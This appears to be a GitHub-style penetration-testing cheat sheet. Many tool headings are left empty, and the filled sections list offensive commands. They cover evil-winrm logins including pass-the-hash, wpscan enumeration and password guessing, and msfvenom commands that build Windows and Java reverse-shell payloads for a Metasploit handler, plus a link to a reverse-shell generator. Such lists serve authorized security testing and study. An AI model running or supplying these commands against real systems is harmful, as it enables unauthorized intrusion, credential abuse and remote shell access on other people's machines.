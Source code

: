 ### **subfinder**

### **dnsenum**

### **dig**

### **nslookup (Windows)**

### **traceroute**

### **netdiscover**

### **fcrackzip**

### **aquatone**

### **evil-winrm**
| | |
|--|--|
| evil-winrm -i $IP -u $USER -p $PASSWORD | *# login with plain texted password* |
| evil-winrm -i $IP -u $USER -p $PASSWORD -S | *# login with plain texted password - SSL enabled* |
| evil-winrm -i $IP -u $USER -H $NTLM_HASH | *# login with NTLM hash - Pass the hash attack* |
| evil-winrm -i $IP -u $USER -p $PASS -l | *# Store logs* |


### **wpscan**
| | |
|--|--|
| - [ ] wpscan --url $URL --verbose   |    *# basic usage* |
| - [ ] wpscan --url $URL --stealthy   |   *# stealth scan* |
| - [ ] wpscan --url $URL --enumerate vp,u,vt,tt --follow-redirection --verbose --log target.log   |  *# enumerate vulnerable plugins, users, vulnerable themes, timthumbs and saves in the targer.log file*|
| - [ ] wpscan --url $URL --usernames usernames.txt --passwords passwords.txt threads 20   |  *# Execute a password guessing attack*|
| - [ ] wpscan --url $URL --enumerate vp --wp-content-dir $remote/path/to/wp-content       |          *# vulnerable plugins and specifying the path to the wp-content directory*|
| - [ ] wpscan --url $URL --api-token $token    |  *# Scan a WordPress website, collecting vulnerability data from the WPVulnDB*|
---

### **theharvester**

### **msf**
| | |
|--|--|
| https://www.revshells.com/ | *# insted of looking for payloads everytime use this to generate a reverse shell code* |
| use exploit/multi/handler; set PAYLOAD $payload; run | *# use msfvenom to generate an exploit, transfer it to the target machine and run this in the local machine to get the reverse shell* |
| msfvenom -p windows/shell/reverse_tcp LHOST=$IP LPORT=$PORT -f exe > revs.exe | *# generates a payload for windows and saves it in revs.exe file* |
| msfvenom -p windows/meterpreter/reverse_tcp LHOST=$IP LPORT=$PORT -f exe > revs.exe | *# generates a payload for windows (meterpreter shell) and saves it in revs.exe file* |
| msfvenom -p java/jsp_shell_reverse_tcp LHOST=$IP LPORT=$PORT -f war > shell.war | *# java payload* |
| | |
